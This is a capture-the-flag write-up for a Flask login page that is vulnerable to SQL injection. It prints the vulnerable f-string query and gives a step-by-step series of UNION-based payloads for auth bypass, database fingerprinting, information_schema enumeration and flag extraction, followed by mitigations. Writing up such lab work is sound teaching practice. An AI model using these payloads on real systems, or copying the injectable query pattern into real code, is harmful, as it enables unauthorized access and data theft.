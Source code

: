 # 👶 Baby_Union

## Challenge Overview

**Description**: A web service that displays account information upon login. Exploit SQL injection to retrieve the flag. Note that table and column names in the provided `init.sql` differ from actual names.

**Flag Format**: `DH{...}`

---

## Source Code Analysis

### Flask Application
```python
import os
from flask import Flask, request, render_template
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'secret_db')
mysql = MySQL(app)

@app.route("/", methods = ["GET", "POST"])
def index():
    if request.method == "POST":
        uid = request.form.get('uid', '')
        upw = request.form.get('upw', '')
        if uid and upw:
            cur = mysql.connection.cursor()
            cur.execute(f"SELECT * FROM users WHERE uid='{uid}' and upw='{upw}';")
            data = cur.fetchall()
            if data:
                return render_template("user.html", data=data)
            else: 
                return render_template("index.html", data="Wrong!")
        return render_template("index.html", data="Fill the input box", pre=1)
    return render_template("index.html")
```

### Database Schema
```sql
CREATE DATABASE secret_db;
GRANT ALL PRIVILEGES ON secret_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `secret_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null,
  descr varchar(128) not null
);

INSERT INTO users (uid, upw, descr) values ('admin', 'apple', 'For admin');
INSERT INTO users (uid, upw, descr) values ('guest', 'melon', 'For guest');
INSERT INTO users (uid, upw, descr) values ('banana', 'test', 'For banana');

CREATE TABLE fake_table_name (
  idx int auto_increment primary key,
  fake_col1 varchar(128) not null,
  fake_col2 varchar(128) not null,
  fake_col3 varchar(128) not null,
  fake_col4 varchar(128) not null
);

INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) 
values ('flag is ', 'DH{sam','ple','flag}');
```

### Template Analysis (user.html)
```html
<h2>Hello {{ data[0][1] }}</h2>
<table>
  {% for i in data %}
  <tr>
    <th scope="row">{{ i[0] }}</th>
    <td>{{ i[1] }}</td>
    <td>{{ i[3] }}</td>
  </tr>
  {% endfor %}
</table>
```

**Key Observation**: Template displays columns at indices `[0]`, `[1]`, and `[3]`

---

## Vulnerability Analysis

### SQL Injection Point
The vulnerable query in the application:
```sql
SELECT * FROM users WHERE uid='{uid}' and upw='{upw}';
```

User input is directly concatenated without sanitization, allowing SQL injection.

---

## Exploitation Steps

### Step 1: Confirm SQL Injection
**Payload**:
```
uid: admin'#
upw: anything
```

**Resulting Query**:
```sql
SELECT * FROM users WHERE uid='admin'#' and upw='anything';
```

**Result**: Successfully logs in as admin, confirming SQL injection vulnerability.

### Step 2: Database Fingerprinting
**Payload**:
```
admin' union select version(),null,null,null #
```

**Result**: Reveals MariaDB version, confirming we can use `information_schema`.

### Step 3: Table Enumeration
**Payload**:
```
' union select table_name, null, null, null from information_schema.tables#
```

**Result**: Discovers suspicious table named `onlyflag`.

### Step 4: Column Enumeration
**Payload**:
```
' union select column_name, null, null, null from information_schema.columns where table_name='onlyflag' #
```

**Result**: Reveals columns: `sname`, `svalue`, `sflag`, `sclose`

### Step 5: Flag Extraction
**Initial Attempt**:
```
' union select sname, svalue, sflag, sclose from onlyflag #
```

**Issue**: Flag appears truncated due to template display logic.

**Final Payload** (optimized for template indices):
```
' union select svalue, sflag, null, sclose from onlyflag #
```

**Result**: Successfully retrieves complete flag: `DH{sample_flag}`

---

## Key Technical Points

### UNION SQL Injection Requirements
- Column count must match between original and injected queries
- `users` table has 4 columns: `idx`, `uid`, `upw`, `descr`
- Must use 4 columns in UNION SELECT

### Template Display Logic
- Template only displays columns at positions `[0]`, `[1]`, `[3]`
- Strategic column placement required for complete flag extraction

### Database-Specific Features
- **MariaDB/MySQL**: Supports `information_schema`
- **Note**: Oracle and SQLite don't support this approach
- Version fingerprinting crucial for payload selection

---

## Final Flag
```
DH{sample_flag}
```

---

## Lessons Learned

1. **Always fingerprint the database** - Different databases require different injection techniques
2. **Understand output formatting** - Template logic affects how data is displayed
3. **Column alignment matters** - UNION requires matching column counts
4. **Information schema is powerful** - Provides comprehensive database metadata
5. **Test incrementally** - Build payload complexity step by step

## Mitigation
- Use parameterized queries/prepared statements
- Input validation and sanitization
- Principle of least privilege for database accounts
- Web Application Firewall (WAF) implementation
